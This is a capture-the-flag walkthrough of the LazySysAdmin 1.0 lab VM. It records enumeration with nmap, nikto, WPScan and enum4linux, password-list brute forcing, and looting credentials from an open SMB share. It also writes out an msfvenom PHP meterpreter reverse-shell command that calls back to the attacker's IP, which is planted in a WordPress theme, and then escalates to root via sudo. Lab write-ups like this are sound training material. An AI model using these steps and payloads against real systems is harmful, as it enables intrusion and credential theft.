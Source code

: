 <h1>LazySysAdmin 1.0 Walkthrough</h1>

Author Description: "Boot2root created out of frustration from failing my first OSCP exam attempt."

Difficulty: Beginner - Intermediate

Challenge: Accepted

I imported to VMware Workstation, using a host only subnet for this and my Kali VM.

Run a quick `netdiscover` to gather the target's IP and an `ifconfig` to confirm my attacker IP.

Now I can really start things off with an Nmap scan.

`nmap -Pn -sT -sV -O 192.168.17.139 -p1-65000`

![Image of Nmap](https://blu0.github.io/LSAWalkthrough/LSAnmap.png)

So there's a few different places to start, but I'll take a look at the website on Port 80 first.

![Image of Site](https://blu0.github.io/LSAWalkthrough/LSAsite.png)

Nothing really jumps out after looking around for a bit, so time for some more web enumeration.

I'll go with trusty old Nikto here, and move to Dirbuster, etc if needed.

`nikto -h 192.168.17.139`

![Image of Nikto](https://blu0.github.io/LSAWalkthrough/LSAnikto.png)

So looking through the results, there are quite a few things to check here. First off, the robots.txt shows the same directories as the Nikto scan, so that's a wash. The `/old/` and `/test/` directories show nothing at all, so moving on. I poked a little bit at the `/myphpadmin/` page but it requires a password. A few guesses at username/password combos proved useless... meh, moving on for now.

There is a WordPress site, but nothing seems to load. Who cares? I’m going to add `/wp-admin/` anyway and see if there is a login page.

Voila!

![Image of Wp-admin](https://blu0.github.io/LSAWalkthrough/LSAwp.png)

WordPress looks like the most viable path at the moment, and it would be a quick reverse shell if I can work my way in.

It's time for some WPScan to see what usernames are there.

![Image of WPscan](https://blu0.github.io/LSAWalkthrough/LSAwpscane.png)

![Image of WPscan2](https://blu0.github.io/LSAWalkthrough/LSAwpscanadmin.png)

So we have Admin and nothing else. Ok then.

Trying some WPScan Brute Force, I scraped the site with Cewl:

`cewl -m 5 http://192.168.17.139/wordpress -w lazycewl.txt`

Then ran it through some mutations with John The Ripper:

`john --wordlist=/root/lazycewl --rules --stdout > lazymutate.txt`

`wpscan –u http://192.168.17.139/wordpress –wordlist lazymutate.txt –username admin`

I tried rockyou for a few minutes before cancelling it, brute force is probably not the answer at this point, but we can return to it if no other information is found. Maybe the password is somewhere else.

Time to check the SMB port and see if there is any relevant data to be found. I probably could have done this a little earlier and saved some time, but here goes.

`enum4linux -a 192.168.17.139`

![Image of Enum4Linux](https://blu0.github.io/LSAWalkthrough/LSAenum4linux.png)

There are a few options, but `share$` looks interesting since it is not a default.

I connect to share as guest.

![Image of SMBClient](https://blu0.github.io/LSAWalkthrough/LSAsmbclient.png)

No problem listing directories or files.

![Image of SMBClient2](https://blu0.github.io/LSAWalkthrough/LSAsmbclient2.png)


The `get` command works, so grabbed the wp-config.php file and viewed it on my system.

![Image of wp-config](https://blu0.github.io/LSAWalkthrough/LSAwp-config.png)

Trying the password found in the WordPress Admin panel and what do you know, the password works.

Now it's time for time get a quick reverse shell on the machine. To do this I will generate a Meterpreter shell using the following command:

`msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.17.141 LPORT=4444 -f raw > shell.php`

Note: Meterpreter is not really needed, I could have tried any number of php reverse shells, but I wanted the meterpreter one for the `shell` command so that if I do something to botch my shell I can simply end the session instead of havnig to reconnect entirely.

Once the shellcode is generated, I do a little touch up on the format (remove leading `//` and add `?>` to the end), then add to footer.php of theme.

![Image of footer](https://blu0.github.io/LSAWalkthrough/LSAfooter.png)

Get meterpreter ready by confirming all options are set appropriately (Payload/LHOST/LPORT)

![Image of meterpreter](https://blu0.github.io/LSAWalkthrough/LSAmeterpreter.png)

Now type run and reload the wordpress site.

![Image of meterpreter2](https://blu0.github.io/LSAWalkthrough/LSAmeterpreter2.png)

The reverse shell is successful, getting some system info.

I tried the WordPress password for root, but it isn't working.

Moved to /tmp and did a quick wget from my attack machine (ensure apache is running on Kali) to download the linuxprivchecker.py script. Ran it, but found nothing obvious. I'll poke around some more with what I already have and come back to it if I get stuck.

Maybe there is another user in the database or another database.

![Image of mysql](https://blu0.github.io/LSAWalkthrough/LSAmysql.png)

![Image of mysql2](https://blu0.github.io/LSAWalkthrough/LSAmysql2.png)

![Image of mysql3](https://blu0.github.io/LSAWalkthrough/LSAmysql3.png)

Nope, no other users.

What other users are on the system?

![Image of passwd](https://blu0.github.io/LSAWalkthrough/LSApasswd.png)

User `togie` looks interesting. I tried swiching to togie with the WordPress password, but no go.

Did I overlook something previously?

Yes, actually. It occurs to me tht I haven't explored my SMB share nearly enough. so I go back to the SMB share and grab deets.txt

![Image of deets](https://blu0.github.io/LSAWalkthrough/LSAdeets.png)

Now that's promising.

Back to my low priv shell, now I'm able to switch to togie with the newly discovered password, and I see the user is in the sudo group as well.

![Image of su](https://blu0.github.io/LSAWalkthrough/LSAsu.png)

Let's see what I can do with sudo access.

![Image of shadow](https://blu0.github.io/LSAWalkthrough/LSAshadow.png)

Looks like a restricted shell, but this doesn't faze me.

![Image of root](https://blu0.github.io/LSAWalkthrough/LSAroot.png)

Proof.txt is mine, plus I have the root password hash if I want to crack it later.

I could experiment with breaking out of the restricted shell (probably vim would work here), but I didn't bother at this point.


Overall, I think this was a good challenge, and a good reminder to enumerate thoroughly before moving too fast from one phase to the next.
